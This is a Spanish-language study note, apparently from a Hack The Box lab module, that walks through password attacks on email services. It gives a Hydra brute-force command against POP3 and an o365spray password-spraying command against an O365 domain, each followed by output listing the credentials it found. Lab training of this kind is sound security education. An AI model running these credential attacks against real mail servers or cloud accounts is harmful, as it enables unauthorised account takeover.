 ```shell-session
[2022-04-13 09:48:10,416] INFO : Valid Accounts: 2
```

---

### HYDRA para ataques de contraseñas
Podemos utilizar Hydra para realizar un ataque de fuerza bruta ocntra las credenciales de un email server que utilice SMTP, POP3 o IMAP4.

Para encontrar usuarios y contraseñas válidas en un mail server, ejecutaré:
```shell-session
Polika4RM@htb[/htb]$ hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-04-13 11:37:46
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 67 login tries (l:67/p:1), ~5 tries per task
[DATA] attacking pop3://10.10.110.20:110/
[110][pop3] host: 10.129.42.197   login: john   password: Company01!
1 of 1 target successfully completed, 1 valid password found
```

### O365 Spray  para ataques de contraseñas
En caso de que el comando anterior falle, también podemos utiliar O365spray:
```shell-session
Polika4RM@htb[/htb]$ python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz

            *** O365 Spray ***            

>----------------------------------------<

   > version        :  2.0.4
   > domain         :  msplaintext.xyz
   > spray          :  True
   > password       :  March2022!
   > userfile       :  usersfound.txt
   > count          :  1 passwords/spray
   > lockout        :  1.0 minutes
   > spray_module   :  oauth2
   > rate           :  10 threads
   > safe           :  10 locked accounts
   > timeout        :  25 seconds
   > start          :  2022-04-14 12:26:31

>----------------------------------------<

[2022-04-14 12:26:31,757] INFO : Running O365 validation for: msplaintext.xyz
[2022-04-14 12:26:32,201] INFO : [VALID] The following domain is using O365: msplaintext.xyz
[2022-04-14 12:26:32,202] INFO : Running password spray against 2 users.
[2022-04-14 12:26:32,202] INFO : Password spraying the following passwords: ['March2022!']
[2022-04-14 12:26:33,025] INFO : [VALID] lewen@msplaintext.xyz:March2022!
[2022-04-14 12:26:33,048] INFO : 

[ * ] Writing valid credentials to: '/opt/o365spray/spray/spray_valid_credentials.2204141226.txt'
[ * ] All sprayed credentials can be found at: '/opt/o365spray/spray/spray_tested_credentials.2204141226.txt'

[2022-04-14 12:26:33,048] INFO : Valid Credentials: 1
```